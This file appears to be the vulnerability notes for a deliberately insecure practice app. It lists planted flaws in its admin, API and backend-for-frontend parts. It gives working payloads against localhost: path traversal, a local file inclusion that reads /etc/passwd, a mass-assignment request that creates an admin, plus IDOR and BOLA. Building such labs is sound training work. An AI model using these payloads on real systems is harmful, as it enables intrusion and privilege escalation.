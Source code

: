 # Known vulnerabilities

### Tips for admin app

- login page always will `Username or password is incorrect` return
- 403 - `curl http://localhost/admin/123/.%2e/data` (data, help, password endpoints)
- Path traversal - `curl http://localhost/admin/123/.%2e/users`
- Path traversal - `curl http://localhost/admin/123/.%2e/configuration`
- LFI - `curl http://localhost/admin/123/.%2e/configuration?file=/../../../../../../../etc/passwd`

### Tips for api app

* You can auth from admin app creds
* JWT token is crackable by jwt-tool and common list
* `CreateUserRequest` - give possibility to create a new admin with MassAssignment `curl -X POST -d '{"username": "test1", "password": "test", "admin": true}'`
* Added `/actuator` for future secondary context findings
* Possible to BOLA on cards `/cards` PUT request 
* Excessive Data Exposure on DELETE request `/cards`

### Tips for bff app

* IDOR on orders `localhost/bff/orders/{orderId}`
* Path traversal for get all users from bff to api - `localhost/bff/cards?cardId=../../../../system/all/users` or `localhost/bff/cards?cardId=../../../../actuator`


## TODO
- Add README with story
